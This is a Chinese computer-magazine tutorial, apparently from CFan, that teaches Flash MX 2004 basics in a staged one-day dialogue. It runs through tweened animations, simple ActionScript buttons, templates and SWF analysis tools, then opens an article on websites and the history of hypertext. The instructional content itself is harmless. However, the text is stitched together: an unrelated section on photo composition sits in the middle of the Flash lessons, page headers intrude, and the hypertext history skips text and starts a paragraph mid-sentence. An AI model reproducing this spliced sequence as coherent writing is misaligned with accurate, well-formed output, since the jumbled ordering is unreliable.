CFan 的江湖中正进行着一个震撼人心的赌约：零起点读者，只要一天就可以学会 Flash 制作，并能独立设计出多个精美的 Flash 作品…… 蒙面人：一天？你说只要一天？据我所知，Flash 很难学，且不说它繁杂的菜单命令、各种功能面板、丰富多样的工具，只说它需要一定的绘画功底这一条，就足以吓倒一大片。 柳絮飞：会画画当然更好，没有绘画基础的人，也能做出精彩的动画来，绝对没有问题。 蒙面人：好，跟你赌了。如果你赢了，公费送你去苏杭玩三天；如果你输了，嘿嘿，你从此就得起名叫“柳絮不飞”。 柳絮飞：公费送我去玩？你有什么权利，难道你是F…… 蒙面人：别管我是谁，正好有两个想学 Flash 的读者 DD 和读者 MM 要来，明天，你负责教会他们吧！要用最新的中文版 Flash MX 2004，另外别忘了把用到的所有素材资源及最终文件放到 http://www.newhua.com/cfan/200502/flash.rar 中，我要请其他读者朋友们来公证……

### 9：00~9：30 会转眼睛会吐泡泡的卡通鱼

听说一天就能学会 Flash，小美（读者 MM）和阿宝（读者 DD）都挺高兴，一大早就来找柳絮飞了。

柳絮飞：鱼会转眼睛么？当然不会！不过卡通鱼会。我先通过这个例子让你们了解一些 Flash MX 2004 的基本常识，认识一些简单的绘图工具。当然，学习 Flash 并不一定要会画画，但熟悉一下 Flash 各种绘图工具的使用，对以后制作动画是非常有用的。这个练习做完了，我再带你们到 Flash 高手那里学习更有趣的实例。

第一步：默认情况下，启动 Flash MX 2004（以下简称 Flash）它会打开一个开始页，通过它可以快速创建或打开各种 Flash 项目，但对第一次学习 Flash 的人来说，暂且不要使用它，先单击选中开始页下方的“不再显示此对话框”项，会弹出一个对话框提示如何再次启动开始页，按回车确定后，下次启动时它就不会再出现了。点击菜单命令“文件→新建”，在打开的新建窗口中点选“常规”标签下的“Flash 文档”项，单击“确定”后即可创建一个新文档，现在就让我们来认识一下 Flash MX 2004 主界面（见图 1）。

舞台和工作区：中央白色区域叫做舞台，只有舞台区域内的对象才能显示在最终动画中，舞台四周的灰色地带是工作区，它就像是舞台的后台一样，不会在最终动画中显示，在这里可以临时存放各种对象、道具等，以方便制作动画。 属性面板：所有工具都共享同一个面板区域，选择不同工具时，属性面板里会随之变为该工具的选项。 时间轴：舞台正上方即是时间轴窗口，其左侧是图层窗格，右侧则是由许多的小格子组成，每个小格称为一帧。

第二步：现在舞台上还空无一人，就让我们白手起家创建几个演员，本例主角是一条会转眼睛会冒泡泡的卡通鱼。如图2所示步骤，用鼠标按住工具箱中矩形工具不放，将弹出一个子工具箱，点选其中多角星形工具，然后在属性面板中点击“选项”，再从弹出的对话框中将多边形的边数设置为3。在舞台区按下鼠标左键不放并拖动，感觉拖出的三角形大小角度都合适时放开鼠标键即可。 这个三角形就是卡通鱼的主体了，如果觉得它不够扁，可选择“部分选取”工具（快捷键A），用它点击一下三角形的边框，显示出三个锚点，拖动锚点即可调整三角形了。 小提示 将光标悬停在工具箱的某一个工具上时，会自动显示出该工具的名称及快捷键，按快捷键可直接跳转到相应的工具上。

第三步：如果想画一条彩色的鱼，可改变其填充颜色。如图3所示，在工具箱底部，单击“颜色”中的“填充色”图标，从弹出色盘中选择一种渐变色，然后点击颜料桶工具，再点击一下鱼的身体（即三角形内部）即可。 在空白的地方再画一个小三角形，然后用选择工具全选它（即拖出一个虚线框框住小三角形）之后，拖移到大三角的后面作为卡通鱼的小尾巴。 第四步：接下来该给鱼画眼睛了，点击填充色图标将其设置为白色，然后点击椭圆工具，在舞台空白处拖动鼠标画一个圆圈，将填充色设置为黑色，在刚才的圆圈里面再画一个圆点，最后用选择工具框选画好的眼睛，再将其拖到合适的位置即可。 小提示 可以全选画好的卡通鱼，然后按 Ctrl+C 组合键复制后，再按 Ctrl+V 组合键粘贴并将它拖到其他合适地方去，接着用任意变形工具全选新复制的鱼，此时选框周边会出现八个锚点，拖动锚点就能改变复制鱼的大小及比例了，光标移到对角锚点的外侧，将出现一个带箭头的圆环，此时拖动可旋转鱼的角度，同样方法可以复制一群鱼（见图4）。 第五步：下面要让卡通鱼吐泡泡了。如图5所示，右击图层1的第30帧，从右键菜单中选择“插入关键帧”；在时间轴窗口左侧单击“插入图层”按钮插入一个新层（即图层2），点选它的第一帧，将填充色设置为白色，然后用椭圆工具在鱼的嘴边画一个小圆圈，右击图层2的第一帧，从右键菜单中选择“创建补间动画”，接着右击图层2的第30帧，选择“插入关键帧”；确保图层2的第30帧为选中状态，用选择工具全选刚才画的小圆圈，并将其移到上面适当位置，再用任意变形工具将其稍稍放大。此时按下Ctrl + 回车组合键预览一下效果，看，鱼儿是不是吐出了一个泡泡，由下往上，由小变大。同样方法，你可以多建几个图层多画几个小圈，卡通鱼吐的泡泡就会越来越多了。

第六步：好了，第一个Flash动画就做完了。先点击“文件→保存”把源文件保存起来，以方便以后修改（后缀为“.fla”）。然后再点击“文件→导出→导出影片”，这里生成的才是真正的Flash动画（后缀为“.swf”），注意，在导出SWF文件时，版本最好选Flash Player6，这样未安装新的Flash播放器的用户也能看你制作的动画了。

- ★卡通鱼的眼睛还没有转起来？其实它的原理与第五步中的吐泡泡是一样的，关键的一点是画卡通鱼的眼睛时，要在新建的图层里进行，不能跟鱼的身体在同一层。这个就请你们自己试试吧。
- ★Flash工具箱中的工具，像线条、套索、文本、椭圆、多边形、钢笔、铅笔、刷子、颜料桶、滴管、橡皮擦以及手形工具、缩放工具等，与其他图像处理软件（如Photoshop）中工具的使用方法大同小异，完全可以借鉴，举一反三。大家可以随便画一些图形，练练手。工具箱下面的“选项”区是活动的，选取不同的工具时就会显示不同的选项，其中有许多出人意料的功能呢，一定要注意多试试哦。

学习心得
小美：双击图层名称再输入字符，可以为图层改名，比如我就把图层1改成了“鱼”，图层2改成了“泡泡”。
阿宝：1. Flash中的图形好像都是由两部分组成，一个是外框，一个是里面的填充色。比如画好一个圆形后，我用选择工具可以把图形的外框拖到一边去，同样也可以把里面的填充拖到一边。在工具箱的“颜色”区，上面的图标（即笔触颜色图标）控制边框颜色，中间的图标控制图形内部的填充颜色（即填充色图标），如果想画没有边框的图形，或者只要外框不要填充色，可先点选上面的笔触颜色图标（或下面的填充色图标），然后再点击第三行中间的那个图标（带红色斜杠的那个），这时再画图形就没有边框或填充色了。
2. 选择工具（黑箭头）与部分选取工具（白箭头）有着很大的区别，前者用来选取各种图形、对象，然后进行复制、移动、删除等操作，后者是用来编辑线框的，通过它拖动线框上的锚点可以将矩形、圆形等修改成任意形状。

### 9：30 ~ 10：30 瑞雪飘飘 E卡传情

木头人：试想在宁静的原野，大雪飘然落下，炊烟袅袅升起，这是多美的一幅图画啊！在这幅图画中再加上浪漫的话语，就可以当成贺卡寄给自己的亲朋好友了。这个例子中，雪花下落效果是通过引导层动画实现的，下面我就给你们讲解一下。

添加背景
一个好的背景对渲染整体气氛很重要，可以使用Flash提供的工具自己画，但那样太累了，其实找一些现成的风景图片导入也行（本文所提供的资源包中包含本例中的背景图片，可在http://www.newhua.com/cfan/200502/flash.rar处下载）。

- 第一步：运行Flash MX 2004，点击菜单命令“文件→新建”创建一个新的Flash文档。
- 第二步：点击“文件→导入→导入到库”，在导入对话框中找到并打开准备好的背景图片（本例中为“背景.png”）。如图6所示，从库面板中将“背景”元件拖入到场景内合适位置（如果库面板没有显示，可按下Ctrl + L组合键将其调出）。如果“背景”元件和当前舞台场景的大小不符，可使用任意变形工具（快捷键为Q）点选图形，再拖动四周的锚点调整其大小使其完全覆盖整个舞台场景。

雪花飘飘

- 第一步：执行“插入→新建元件”命令（快捷键Ctrl + F8）插入一新元件，类型设置为“图形”，命名为“flower”后确定，如图7所示。
这时会打开元件编辑区，Flash文档默认的背景为白色，雪花也是白色，容易与背景混淆，可以执行“修改→文档”命令，在弹出对话框中点击“背景颜色”图标打开色盘，将背景设置为其他颜色（如黑色）后确定即可。
在工具箱中单击填充色图标，从弹出色盘中点选白色。接着单击刷子工具，再在工具箱最下方的“选项”区中单击第一个下拉按钮并选择小一点的笔刷，然后在元件编辑区的正中间（十字原点处）画一个不规则的白色圆点，一片雪花就做好了（圆点不能太大）。

- 第二步：接下来要让雪花飘起来。执行“插入→新建元件”命令（快捷键Ctrl + F8）插入一新元件，类型设置为“影片剪辑”，命名为“fly”，确定后自动进入“fly”元件编辑区，在库面板中找到刚刚制作的“flower”元件（即雪花）并将它拖到“fly”编辑区中。
- 第三步：在图层1第60帧上右击并选择“插入关键帧”。再点击时间轴窗口左下角第二个图标（即“添加运动引导层”按钮，在“插入图层”按钮右侧），为“图层1”添加引导层，此引导层会被自动命名为“引导层：图层1”。
- 第四步：在新添加的“引导层：图层1”的第1帧上，使用铅笔工具以雪花为起点画一条弯曲的曲线（这条曲线将做为雪花飘落的路径，注意：因为前面我们将背景设置成了黑色，所以这里应在工具箱中将笔触颜色设置为白色，否则铅笔画出的曲线看不到），然后右单击该层的第60帧并选择“插入关键帧”。
点选图层1的第60帧，拖动雪花到曲线末尾的点上，接着在“图层1”的第1帧上点鼠标右键并选“创建补间动画”命令。按Ctrl + 回车键预览一下效果，“雪花”是不是沿着曲线慢慢滑落了。
单击“插入图层”按钮新建一个普通图层（将自动命名为“图层2”），注意，如果该图层不在最顶端，可使用鼠标拖动的方法将其放到最上层，然后单击“添加运动引导层”按钮在图层2之上再建一个引导层（自动命名为“引导层：图层2”）。按照上面的方法，再创建一个飘落的雪花。如此反复，可以建立多片雪花同时飘落的效果（见图8）。

- 第五步：点击编辑条上左侧的“场景1”按钮回到全局场景工作区，点击“插入图层”按钮为主场景增加一个图层，右击新图层中的第25帧并选择“插入关键帧”，将影片剪辑元件“fly”拖入场景上方位置（因为雪是从天上飘落的……），再次拖入，再次拖入，一直拖N次（N>20）。再分别在第55帧、第95帧、155帧等处右击选择“插入关键帧”命令并将“fly”元件多次拖入其中，注意拖到场景中的位置要产生一定位移变化，否则效果会很单调。好了，此时按下Ctrl + 回车键，欣赏一下漫天雪飘的情景吧。是不是后半部分背景图片突然消失，变黑了？那是因为背景所在的图层1的帧数没有新增图层长的原因，可在图层1适当长度的帧上右击鼠标，再选“插入帧”命令即可。

文字部分
既然要做贺卡，祝福的话肯定要说几句，本例只简单加了一句“瑞雪兆丰年”，你可以替换成自己的话。

- 第一步：按下Ctrl + F8组合键新建名为“文字”，类型为图形的元件，选择文字工具（快捷键为T）在场景中单击输入“瑞雪兆丰年”，并在属性面板中设置它的字体、大小、颜色等（你可随意设置），用选择工具框选住所有的文字后按下Ctrl + B键将其打散。
- 第二步：点击编辑条左侧的“场景1”回到全局场景编辑区，将“文字”元件拖入，右击元件并从右键菜单中选择执行“时间轴特效→变形/转换→转换”命令。在打开的“转换”对话框中进行相应的设置，其中“效果持续时间、方向、移动减慢”等项默认的设置已经比较适合做特效了，当然你也可根据自己的意愿进行修改，修改后点击“确定”即可。
好了。Flash动画贺卡制作成功了，点击“文件→保存”保存好源文件，再按下Ctrl + 回车组合键先自己欣赏一下这预兆丰年的瑞雪吧。

- ★专业的全屏Flash
有些Flash在播放时会自动全屏，显得又酷又专业，其实实现起来很简单：
用鼠标选择任意图层的第1帧，打开“动作-帧”面板，点击“+”选择“全局函数→浏览器/网络→fscommand”，输入“fscommand("fullscreen", true);”（不含中文双引号）便可实现全屏播放，试试吧。
- ★红叶飞舞
你可以找一张秋日风景的图片，再找一个红叶的图片（还记得Photoshop中的红叶笔刷吗？用它来做一下吧，如不会，请参考2004年第22期《看我怎么‘修理’你—Photoshop图片处理一日通》，借鉴本例方法制作一个红叶飞舞的秋景动画。

## 2. 选择主体重心是关键

想好了拍摄方向后，那么要拍摄的主体重心应该放在照片的哪个位置呢？一般人都会习惯将要拍摄的对象重心放在画面的正中间，这是一般数码相机的对焦焦点所在。这个地方最容易拍到对焦清晰的照片，不过却未必能够拍摄出成功抓紧人们视线的照片。

有人将绘画中提出的黄金分割点 0.618 应用于摄影构图上。不过，真正拍摄时其实又不必计算那么准，大概有几个重点要记着。 如果画面中有一条横跨照片的线条，例如风景照中的地平线、水平线，最好将它放于画面上或下半部三分一位置（见图 28），尽量不要放在正中央，否则就显得呆板。同样，如果将拍摄主体放在画面水平或垂直三分一位置，通常也比放在正中间好。

此外，黄金分割法也衍生出井字型构图法，也就是说只要将画面用两条水平线分成三等分，再用两条垂直线分成上下三等分，从而使画面被分割成九个相等的方块。通常摄影者就在四个交叉点上选择一处作为主体的最佳位置，将画面最重要的部分安置在这些重点，自然能够吸引人们的视线。这并不是说，主体非得准确地置于交叉点上不可，实际上主体常出现在交叉点附近。 例如拍摄人像时，方方正正的一张照片没什么特色。如果将人像向两侧倾斜一些（或者数码相机倾斜一些），感染力就好多了（见图 29）。

# 电脑爱好者
# 学习心得

小美：可以点击“文件→发布设置”命令，在设置对话框的“格式”标签中，单击勾选“Windows 放映文件(.exe)”项，就可以生成EXE可执行文件了，这样我就不用担心收到贺卡的朋友的电脑中是否安装了Flash Player，或者是Flash Player版本太低而导致的不兼容问题了。勾选“Macintosh 放映文件”项还能把生成的贺卡发给使用苹果机的朋友看呢。

# 10:30~11:00 雪人笑了

木头人：接下来的这个例子，就是形状补间动画的一个最好说明，我们将做一个会微笑的雪人，它的嘴开始的时候只是一个点，慢慢变成咧嘴大笑。

-   第一步：新建一个空白的Flash文档，执行“文件→导入→打开外部库”命令导入一张雪人图片，如果没有合适的图片，可以下载本文所提供的资源包，导入其中的“微笑雪人.fla”文件。
-   第二步：从库面板中将名为“雪人”的影片剪辑拖入场景中。你会发现这个雪人没有嘴巴，下面来给它做一个咧开嘴巴笑的动画吧。
-   第三步：点击时间轴左下方的“插入图层”按钮新建一图层，然后点击工具箱中的椭圆工具(快捷键为O)在雪人脸上合适的位置拖画出一个小椭圆作为雪人闭嘴时的样子(见图9)。
-   第四步：右击图层1的第40帧选择“插入帧”命令，再右击图层2的第40帧选择“插入空白关键帧”命令，并在这一帧上用工具箱中的铅笔工具画出一个大笑的嘴(封闭的口字形状)。
-   第五步：用鼠标左键点选图层2的第1帧，再在属性面板中，将“补间”项设置成“形状”，这时你会看到时间轴中出现了由第1帧通向第40帧的实心箭头。好了，一切搞定，按下Ctrl + 回车键来欣赏一下雪人快乐的微笑吧(见图10)。





# 学习心得

小美：如图10所示，点选第一个绘图纸外观按钮，则前后相邻的几个帧变得就像是透明的胶片叠在了一起，这样在给雪人绘制两种状态的嘴形时很容易对上位置。在时间轴下其他几个不同类型的绘图纸外观按钮，也能很好地帮助我们对齐不同帧上的图形对象。

阿宝：点选铅笔工具后，单击工具箱下方“选项”区中的下拉按钮可以为铅笔设置不同的状态，我在给雪人画微笑的嘴时，使用了中间的“平滑”，画出的线条柔和平滑多了。

# 小知识

# ★Flash动画的类型

-   1.逐帧动画(Frame by Frame)：这是采用的传统动画的制作方式；是把要表现的动态分解成一个个的动作，然后一个动作一个动作的绘制，最后连续播放的时候就形成动画了。逐帧动画不仅制作费时，而且文件所占空间也非常大。
-   2.补间动画(Tweened)：这种动画充分利用了电脑快速计算的优势，它只需要绘制出动画的开始动作及最后一个动作，之间的过程则由电脑自动计算得出，省时省力，文件所占空间也小。Flash中的补间动画又分为以下两种：
    -   动作补间(Motion Tweening)：适合于做移动、缩放、旋转、自定义路径移动(本例中的雪花飘落即是使用的这个方法)、色彩渐变等动画，可应用于实例、群组、文字等对象。
    -   形状补间(Shape Tweening)：它可以完成动作补间的大部分效果，它的最大特色则是形状渐变，比如从圆形过渡变成正方形等，但它只能应用于图形元件。本例中的“雪人笑了”就属于这种动画。
-   3.时间轴特效(Timeline effects)：这是Flash MX 2004中新增的特性，它实际上是由一些预定义的脚本创建的，可以自动产生各种动画效果，而无须使用者手工操作。本例中显示的文字即是使用的这种方法。

# ★元件、实例、库

打个比方来说，元件就是一个模具，实例就是用这个模具拓出来的一个个实际的物体，而库则是存放与管理各种元件的仓库。创建了一个元件之后，就可以在动画中的任意地方多次使用，所有的实例都只是元件的一个化身，是对元件的引用，每创建一个实例，软件只需要记录下它的尺寸、位置、比例、颜色等信息就可以了，所以创建再多的实例，也不会使文件变得很大。如本例在场景中拖放了N多个雪花剪辑，但实际上只是一个元件而已。

# 13:30~14:30 欢迎进入Flash闪客世界

木头人：站在城门前，两扇红漆大门牢牢地挡住了你的视线，单击右下角的机关按钮，城门向两旁慢慢打开，露出城内的风景……这个实例是对位移动画最好的说明，涉及到简单的ActionScript脚本。

-   第一步：运行Flash，新建一个空白的Flash文档，在默认图层1的第1帧中通过“文件→导入→导入到舞台”命令将一幅故宫内城风景画导入到当前场景中，并在图层1的第70帧上右击，选择“插入帧”。
-   第二步：点击“插入图层”按钮插入图层2，通过“文件→导入→导入到库”命令将素材文件(左侧、右侧城门的图片)导入库中，然后从库面板中将左侧城门图片拖到图层2第1帧的场景上。
-   第三步：由于一个图层内同时能产生动画的只能有一个元件，所以我们还需要新建一个图层3，将右侧城门图片拖入图层3的第1帧场景中。调整两扇门的位置，使它们呈“关闭”状。
-   第四步：点选任意图层的第1帧，然后点击打开“动作 - 帧”面板，在其中输入“stop();”，此为Flash内置的Action Script脚本，使影片在开始的时候不要自动播放。
-   第五步：右击图层2的第2帧选择“插入关键帧”，这一帧中的大门不要动；再在第70帧插入关键帧，用鼠标点选图层2场景中的大门，利用鼠标将其向场景左侧移动，一直到显示出大门后面遮盖的背景为止。再用鼠标右击第2帧选择“创建补间动画”，打开这扇门的动画就创建成功了。以同样的方法将图层3中的城门也打开，不过方向相反。
-   第六步：大门打开后，就需要停在两旁不要再动了。于是我们选择任意图层的第70帧，点击打开“动作 - 帧”面板在其中输入“stop();”。
-   第七步：点击“窗口→其它面板→公用库→按钮”打开Macromedia官方提供的按钮库，在库中选择一个自己喜欢的按钮，将它拖入图层2的第1帧中。用选择工具点选此按钮，打开“动作 - 按钮”面板，在面板中为它输入动作脚本：“on (release) {GotoAndPlay(2);}”，这行代码的意思是当鼠标点击按钮时，立即播放第2帧，而第2帧开始正是前面我们制的开门动画。至此，城门洞开的动画就完成了，按Ctrl + 回车键欣赏一下吧(见图11)。



可以再添加一些文字，如“欢迎来到Flash闪客世界！”，然后制作一个位移效果，使其在打开城门的时候，同时飞出欢迎词来。

# 学习心得

小美：城门位移的补间动画有时会发生意想不到的情况，如城门大小发生了变化甚至发生了旋转，试了几次之后发现，其实这是“关键帧”属性设置的问题，选择第1帧，点击打开属性面板，去除勾选“缩放”，并将“旋转”设置成“无”即可。

# 14:30~14:40 十分钟打造超酷闪客相册

木头人：Flash MX 2004新增了“从模板创建”的功能，其中就含有“照片幻灯片放映”模板，让你花最少的时间做最专业的Flash相册，它不但有非常漂亮的相框，还具有前进、后退、自动播放、显示总体相片数目及当前位置、随意移动控制面板等多种功能。

-   第一步：启动Flash MX 2004，点击“文件→新建”打开新建窗口，点击其上的“模板”标签，在“类别”中选择“照片幻灯片放映”，风格则选择“现代照片幻灯片放映”，确定后进入编辑窗口。
-   第二步：可以看到Flash已经为我们准备好了几张图片，喜欢的话就保留，不喜欢就删除掉：选择最下面的名叫“Picture”图层，拖选该层中的所有帧，再右单击并选“删除帧”命令即可。
-   第三步：想加入自己的靓照？很简单，执行“文件→导入→导入到库”命令，将所有准备好的照片导入。在“Picture”图层第1帧“插入空白关键帧”然后将第一张图片拖入到该帧场景中，第2帧也“插入空白关键帧”并将第二张图片导入，以此类推，有多少张照片就插入多少帧。
-   第四步：为了保留漂亮的界面和常用操作按钮，将所有图层的长度设置与图片所在的图层一样长：在相应图层的相应帧上右单击并选择“插入帧”命令即可。

# Just Do It

Flash内置有多个模板，好好地利用它们就可以轻松创建各种应用，比如向你的客户展示你们公司的产品或向学生演示讲义等，完全可以用Flash的“幻灯片演示文稿”模板来做。

与普通Flash编辑窗口不同的是，幻灯片编辑窗口分为左右两部分，左边是缩略图及幻灯片的结构，右边的场景称为“屏幕”，就是幻灯片的内容。左窗口的“Presentation”是幻灯片的背景图片，一般还有上下翻页的按钮，在右窗口中双击就可以进行修改；“Title”是幻灯片的标题，双击进行修改。“ContentHeader”是幻灯片的主体部分，下面的都是幻灯片的内容，可以根据需要进行修改、添加。需要注意的是通过屏幕中时间轴创建的动画无法播放，需要动画演示时，必须将动画做成影片剪辑元件，然后从库中拖放到屏幕中就能正常播放了。

# 学习心得

阿宝：本例中的第三步，一定要使用“插入空白关键帧”命令，否则会出现前后图片叠合的问题。

# 14:40~15:30 Q版星座测测你的事业与爱情

木头人：想为自己的MM或朋友占卜一下2005年的运程么，发愁的是手边没有工具，难道信口开河？不妨就自己做一个星座占卜的Flash小工具(纯粹娱乐，不要信以为真哦)。这个例子涉及到一些简单的交互操作。

-   第一步：首先要导入图片素材，用鼠标手绘12星座图片有点难度，可在本文提供的资源包中下载已经做好的Q版12星座图，通过“文件→导入→导入到库”命令将其导入库中，从库面板中将12星座图片按照1~12月的顺序依次排开，为了界面美观，我们还可以在小图片下映衬一张美丽的大图作为背景(见图12)。



-   第二步：为动画点缀一些小饰物可以使得界面活泼可爱，下面我们来制作一个闪烁的炫光。
    -   1. 按下 Ctrl + F8 键创建一名为“闪光”的影片剪辑，在元件编辑区内，点击椭圆工具，将“笔触颜色”设为无，填充色设为“放射状”，拖画出一正圆形；再利用铅笔工具和笔刷工具从圆心画出六条放射线，最终效果如图13所示。



    -   2. 按下 Ctrl + A 键全选这些图形，接着按下 Ctrl + G 键将图形组合成一体。在第5帧中插入关键帧，利用任意变形工具将此图形缩小一半并旋转半周。
    -   3. 鼠标右击第1帧选择执行“创建补间动画”命令，同样在第10帧插入关键帧，再利用变形工具将此图形还原成原来大小并旋转半周，右击第5帧创建补间动画。
-   第三步：为了实现点击星座图片就跳转到运程说明场景的效果，我们需要在星座图片上方添加一个按钮，为了不使这个按钮覆盖住下面的图片，这个按钮需要做成半透明的。
    按下 Ctrl + F8 键创建一个按钮元件，在按钮编辑区内可以看到按钮的时间轴分为“弹起、指针经过、按下、点击”等四个状态，右击“弹起”帧并选择“插入关键帧”命令，使用矩形工具画一个与星座图片同样大小的长方形，将其填充色的 Alpha 值设为 0%；再在“指针经过”帧插入关键帧，并将 Alpha 值改为 30%，分别在“按下”和“点击”状态插入关键帧，这两帧可不修改。
-   第四步：在编辑条里点击“场景 1”按钮回到主场景编辑区，将上面制作的“闪光”影片和按钮元件一一拖放到星座图片上。点选白羊星座图片上的按钮，再点击打开“动作 - 按钮”面板为它加入按钮动作:“on (release) {gotoAndStop(2);}”，这里的2代表白羊星座运程介绍所在的帧；然后再同样为其他星座图片上的按钮添加按钮动作跳转到适当的帧。
-   第五步：在主场景第2帧插入关键帧并在其中为白羊星座添加2005年运程介绍，按照同样的方法为其他星座添加2005年运程介绍，注意要与星座图片上按钮的动作相对应。

现在按下 Ctrl + 回车键预览一下，点选你所属的星座，看看你2005年的事业与爱情吧。

# 15:30 ~ 15:45 他人动画 巧为我用

木头人：学习 Flash 的最好办法就是看看别人的作品是如何做的，在网上下载到精彩的 Flash 动画时，不妨借助一些工具来分析它的内部结构。这里我给大家介绍两个 Flash 分析软件“硕思闪客精灵”(下载地址:http://hn.onlinedown.net/soft/8546.htm)和 Action Script Viewer(下载地址:http://www1.skycn.com/soft/15077.html)。

-   第一步：启动硕思闪客精灵后，在左侧“Explorer”浏览窗格中选择存放有 SWF 文件的目录，这时会在下面的窗格中显示出此目录中的所有 SWF 文件。
-   第二步：选择你想要分析的 SWF 文件，这时会在中间部分播放此文件，如果想要了解这个 SWF 文件的内部构造，可在右侧“Resource”窗格中点击该文件名前面的“+”号，软件便会以树形结构分门别类显示出 SWF 文件的内部结构来。
-   第三步：直接点击工具栏中的“Export FLA”按钮，选择合适的保存位置即可将此文件导出成完整的 FLA 格式了，并可在 Flash 中打开、编辑。注意，如果是未注册版本，将不会导出其中的 ActionScript 脚本。
-   第四步：如果想要得到 SWF 文件中的脚本，可以使用 Action Script Viewer。运行 Action Script Viewer 后，点击工具栏上的“打开”按钮打开你想查看脚本的 SWF 文件，在“帧”标签中依次点击各个帧，在下面的查看框中便可任意查看脚本并可复制了。

有了这两款分析工具，就不用发愁自己作品的 Flash 源文件丢了(当然最好别丢)，也可以有机会一窥其他闪客高手的制作内幕(注意版权，一定要先得到许可哦)。

# 学习心得

小美：我记得在《电脑爱好者》2004 年第23期的《学习 Flash 不妨用“拿来主义”》一文中也介绍过跟它们功能相似的软件。

# 15:45 ~ 16:30 Flash 资源列表

柳絮飞：通过这一天的学习，大家感觉如何？Flash 是不是没有想像中的那么难？当然，一天的时间还是太短，有许多知识点我们都没有讲到，比如 ActionScript 脚本、遮罩效果等，我们会在以后的时间里再给大家补课。下面推荐一些不错的 Flash 资源网站，相信会对你以后的学习有所帮助。

# 国内一些 Flash 资源网站

-   闪吧:http://www.flash8.net
    综合性质的个人 Flash 网站，最大的特色在于素材特别丰富，是下载常用字体、矢量图库、常用音乐、Flash 源文件等的最好选择。
-   思妙动画:http://www.snailcn.com/inc/snailteaching.asp?leicd=40&high=1
    思妙动画提供的 Flash MX 入门动画教程，以幽默风趣的动画形式来教你一步一步入门 Flash 基本操作，很有趣很实用，在快乐中学。
-   闪客帝国学堂:http://www.flashempire.com/school/
    著名 Flash 商业网站闪客帝国的“学堂”栏目，资深闪客现身说法，让你迅速步入高手之列。
-   闪客天堂:http://www.flasher.cn/
    精彩丰富的教程让你不虚此行，基础知识、高级脚本、常用素材应有尽有，来看看吧！
-   闪盟社区:http://www.flashsun.net/bbs/
    闪盟在线的论坛社区，高手云集，内容丰富，把自己抓破头皮也搞不清的问题拿来向高手请教请教吧！

# 国外一些 Flash 资源网站

-   FlashKit:http://www.flashkit.com/index.shtml
    Flash 开发者资源网站，收有大量 Flash 教程、第三方软件及各种素材资源等。
-   Developer Center:http://www.macromedia.com/devnet
    Macromedia 设计与开发者中心。
-   UltraShock:http://www.ultrashock.com
    Flash 资源网站，收集有许多 Flash 源代码文件。

# 网络背后的故事

图珠海 孙宁

当我们悠然地每日享用互联网上浩如烟海的各种信息的时候，你有没有想过它们是如何让你随心所欲地浏览汲取；当我们前所未有地感到信息无处不在的时候，你有没有想过是谁将它们承载在你的面前。谁解其中内幕？听我为你慢慢细说……

# 什么是网站？

> 菜鸟:“网站就是我在 IE 里输入 www.cfan.com.cn 后出来的东东。”

> 老鸟:“网站就是互联网上的一个信息发布场所。”

这天，菜鸟和老鸟看到一张电脑知识问卷，提了这样一个问题:“什么是网站？” 于是，菜鸟和老鸟纷纷在问卷上填上了上面的答案。

那么，到底谁说得对？到底什么是网站？上面的漫画中，菜鸟告诉了我们究竟怎么样能看到一个网站——“在浏览器的地址栏中输入网站的域名即可”；老鸟告诉了我们网站的作用——“用于在网络上发布和传播信息”。

没错，网站就是在互联网上一块固定的面向全世界发布消息的地方。它通常由域名(URL，也就是我们常说的网址)和网站空间(服务器上的硬盘存储空间)构成。我们可以将网站形象地比喻为电视台，一个成熟的网站通常包括:行政管理人员(相当于电视台的管理者)、记者、编辑(相当于电视台的记者和编辑)，网页(相当于用于电视节目播出的录像带)、服务器(相当于播出电视节目的录像机)、网页制作和维护工程师(相当于剪辑制作电视节目的工作人员)、网络工程师(相当于安装和维护有线电视的技术人员)、软件工程师(相当于摄像)、数据库系统工程师和管理员(相当于录像带管理员)等。

网站的功能是为我们提供信息服务，通过现在的网站，我们可以观看新闻、了解股市、参与论坛讨论、观看网上电视直播和精彩电影、下载音乐和软件……不过，正如一个工厂一样，生产不同产品需要不同的机器。与此类似，不同的网站信息服务也需要众多不同软件和硬件的支持。那么这些为我们提供服务的网站用的是什么硬件和软件呢？你是不是很想知道我们在浏览器上看到的网站背后是否还“别有洞天”呢？下面我们就带你走进网站的幕后，了解其中的故事。

# 你知道吗

Web是指各种网站的集合，也可泛指由众多网站组成的互联网。很多时候Web也是网站的通称(有时我们也将一个网页称作一个Web页面)，我们通常所说的“要建一个Web”是说“要建一个网站”，“Web服务器”也就是网站服务器的意思。但是很多时候，Web这个词狭隘地被人只是当作网站的通称，或者仅仅当作网络的通称，而忽略了其实它是一个内涵丰富的词汇，在不同的技术上谈到Web会有不同的意思。

从技术层面看，Web架构的精华有三处:用超文本技术(HTML)实现信息与信息的连接；用统一资源定位技术(URI)实现全球信息的精确定位；用新的应用层协议(HTTP)实现分布式的信息服务。这三特点无不与信息的分发、获取和利用有关。

# 网站的起源

你想知道世界上第一个浏览器和第一个网站分别是什么样子吗？在走进网站的幕后前，我们首先来简要回顾一下网站的起源，先从网页和超级链接的发明说起好了。

1945年，范尼瓦·布什(Vannevar Bush)在《大西洋月刊》(Atlantic Monthly)上发表了题为《如我们想象的那样》(As We May Think)的文章。文章阐述了有关文本和文本之间相互关联的思想。他首次提出将传统的图书馆馆藏文献的储存、查找机制与计算机结合起来，构思并描述了他所设想的一种 Memex 装备——机械化的个人文档与图书馆，即台式个人文献工作系统，这种装置能存贮书、记录和通讯。这也是现在的数字图书馆的起源。

利用联机系统浏览信息、编辑信息和收发电子邮件。基于这个目的，他发明了一种用于计算机的指向定位系统，并给它起名为“Mouse”，也就是我们今天所用的鼠标。值得一提的是，1999年国际超文本大会设立的最佳论文奖即以英格尔的名字命名。因为从一定程度上说，可以说是英格尔伯特发明了超文本技术。与此同时，泰得·纳尔逊(Ted Nelson)在文章A File Structure for the Complex, the Changing, and the Indeterminate中正式将这种信息关联技术命名为超文本(Hypertext)技术。
1967年，Andy van Dam等人建立了超文本编辑系统。
1969年，IBM的Charles Goldfarb发明了可用于描述超文本信息的GML(Generalized Markup Language)语言。
1978到1986年间，在美国国家标准协会(ANSI)等组织的努力下，GML语言进一步发展成为著名的SGML语言标准(HTML的雏形)。
1980年，在欧洲核子物理研究中心(CERN)工作的Tim Berners-Lee在一篇笔记中提到，可以通过超级链接任意获取大量信息的方法，采用这种方法可以通过文字标题等内容双向链接到其他相关内容(这不正是我们现在所看到的网页上的超级链接吗？)。
